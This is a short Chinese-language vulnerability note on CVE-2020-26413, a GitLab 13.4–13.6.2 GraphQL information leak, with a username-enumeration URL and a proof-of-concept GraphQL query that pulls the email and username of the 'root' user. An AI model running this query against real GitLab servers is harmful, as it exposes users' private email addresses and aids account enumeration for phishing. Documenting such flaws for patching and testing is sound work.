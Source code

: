 # GitLab Graphql 邮件地址信息泄露 (CVE-2020-26413)

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

影响版本：

GitLab 13.4 - 13.6.2

可以先通过接口进行遍历用户名，然后再枚举用户的邮箱...


```
https://xxx/api/v4/users/x
```

poc：

```
http://xxx.xxx.xxx.xxx/-//graphql-explorer
query {  
  user(username:"root"){  
    email  
    username  
  }  
}
```

ref：

* https://mp.weixin.qq.com/s/3cT8d9I7qru2tsURqUDusw
* https://www.cnvd.org.cn/flaw/show/CNVD-2021-14193
* https://nvd.nist.gov/vuln/detail/CVE-2020-26413
* https://gitlab.com/gitlab-org/gitlab/-/issues/244275